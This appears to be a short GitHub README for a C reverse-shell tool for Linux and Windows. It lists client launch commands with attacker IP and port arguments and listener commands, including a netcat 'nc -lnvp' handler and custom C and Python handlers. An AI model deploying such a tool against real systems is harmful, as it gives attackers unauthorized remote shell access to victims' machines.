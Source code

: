 # SimpleReverseShellC

This is a simple Reverse Shell written for linux platform execution.

## Client Usage:

./linuxClient [IP] [PORT]

windowsClient.exe [IP] [PORT]

Where [IP] and [PORT] will default to the default defines if no paramters are passed.


## Handler Usage Options:

### NetCat Handling:
nc -lnvp [PORT]

### Custom C Handler:
./hander [PORT]

### Custom Python Handler (pyHandler):

python3 pyhandler.py


### WINDOWS CLIENT MUST BE HANDLED WITH NETCAT CURRENTLY... custom handler module for SchruteFarms to be written
